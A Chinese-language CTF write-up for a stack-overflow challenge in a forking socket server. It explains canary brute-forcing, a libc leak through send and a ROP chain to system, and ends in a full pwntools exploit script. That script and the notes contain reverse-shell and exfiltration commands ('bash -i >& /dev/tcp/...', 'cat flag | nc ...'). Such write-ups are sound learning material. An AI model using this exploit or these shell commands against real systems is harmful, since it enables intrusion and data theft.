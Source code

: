 ### level6  cookie


这是一个简单的**socket服务器栈溢出**的题目
##### 溢出漏洞点
![Alt text](./1530851457324.png)

**特点：fork子程序，从同一片内存申请，cookie值一样，可以爆破**

**这里本地调试需要先创建一个具有root权限的level6，然后用该用户来执行该程序，注意这里需要先起一个服务器，然后再nc连上去进行调试**

##### 一些小知识点和疑问
```
TCP反连；nc反弹shell：cat flag | nc xxx.xxx.xx.xx 8888
关于反弹shell的一些资料参考：
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.gnucitizen.org/blog/reverse-shell-with-bash/
疑问：为什么cookie会距离ebp有12byte这么远？
尝试解答：是不是这个ebp是主函数main的，而不是子函数的。所以中间还隔了一个子函数的ebp
SIGCHLD
进程Terminate或Stop的时候，SIGCHLD会发送给它的父进程。缺省情况下该Signal会被忽略
```

##### 调试用到的命令：
```
print system #看泄露出来的地址是否与链接库的地址相同
info proc   #查看进程号
cat /home/level6/9441/fd  #查看fd可能的值(标准输入/出和默认值)
ROPgadget --binary cookie #查找ROP
ps -aux | grep cookie #查看当前运行进程
info proc all  #查看一些程序运行的信息
set follow-fork-mode child  #fork之后调试子进程，父进程不受影响。
上面一条命令参考链接：https://www.ibm.com/developerworks/cn/linux/l-cn-gdbmp/index.html
```
##### 做题过程中遇到的问题和解决办法
+  对C语言写的socket不熟悉，需要去了解其中的流程(但其实对解题没太大的影响)
+  主要是这里用到了fork子进程来进行执行输入的，所以每次输入都会从同一个内存片段去取cookie(只要这个进程没断就是从同一片内存中取值)
+  一段时间没做题，调试起来有点生疏，调试的时候注意考虑下断点的位置，然后逐步ni单步查看执行的整个流程是否符合我们设置的跳转
+  这次调试不出来主要是参数个数问题，c语言里面没有默认参数为0这个说法，需要查好调用每一个函数的参数个数和值进行一一配置。
+  不必要的send多次payload可以通过ROP连接起来，灵活利用，灵活操作。

##### 本题主要思路
+ 配置好本地调试的服务器环境(具有root权限的level6)
+ 爆破cookie
+ 确定溢出位置和溢出长度
+ 泄露send地址
+ 确定下断点位置：0x08048C47进行调试
+ 找到一个可写的地址，通过recv接收数据写到那个地址上，再把该地址作为参数给到system来调用即可getshell

##### 具体详细代码
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

IP = '192.168.210.11'
#IP = '192.168.23.130'
PORT = 10006
NORMAL_RET_ADDR = 0x804897b
TEST_FINI = 0x8048fc0

canary = "\x00"
padding = "a"*64
"""
for x in xrange(3):
    for y in xrange(256):
        with remote(IP, PORT) as p:
            if y == 10:
                continue
            p.send(padding+canary+chr(y) + chr(10))
            try:
                info = p.recvuntil('GoodBye')
		p.close()
		break
            except Exception as e:
                print('exception %s' % e)
		p.close()
                continue
    print('got single byte %x' % y)
    canary += chr(y)
print "cookie bruteforce complete with cookie = " + hex(u32(canary))
"""
canary = p32(0xb28dff00)
#canary = p32(0xc6586e00)
p = remote(IP, PORT)
libc = ELF('libc.so.6')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('cookie')
send_plt = elf.plt['send']
send_got = elf.got['send']
vuln_addr = 0x0804897B
payload1 = 'a'*64 + canary +'a'*12 + p32(send_plt) + p32(0) + p32(4) + p32(send_got) + p32(4) + p32(0)
p.sendlineafter('Would you like some cookie?\n', payload1)
#0xb7587000
#p.recvline()
#p.recv()
recved = p.recv()
#print(recved)
print(len(recved))
send_addr = u32(recved)
p.info('send addr %x' % send_addr)

libc_base = send_addr - libc.symbols['send']
p.info('libc base %x' % libc_base)

system_addr = libc_base + libc.symbols['system']
system_cmd = 'ls'
p.info('system addr %x' % system_addr)
recv_plt = elf.plt['recv']
writable_addr = 0x804b07c

p = remote(IP, PORT)
pause()
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(system_addr) + p32(4) + p32(writable_addr) + p32(100) + p32(0)
'''
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(0x08048fb8) + p32(4) + p32(writable_addr) + p32(100) + p32(0) + p32(system_addr) + p32(0) + p32(writable_addr)
'''
p.sendlineafter('Would you like some cookie?', payload2)
p.send('cat flag | nc xxx.xxx.xx.xx 8888'.ljust(100, '\x00'))


payload3 = 'a' * 64 + canary + 'a' * 12 + p32(system_addr) + p32(0) + p32(writable_addr)
p.info('system %x' % system_addr)
p.close()
p = remote(IP, PORT)
p.sendlineafter('Would you like some cookie?', payload3)
#p.interactive()

```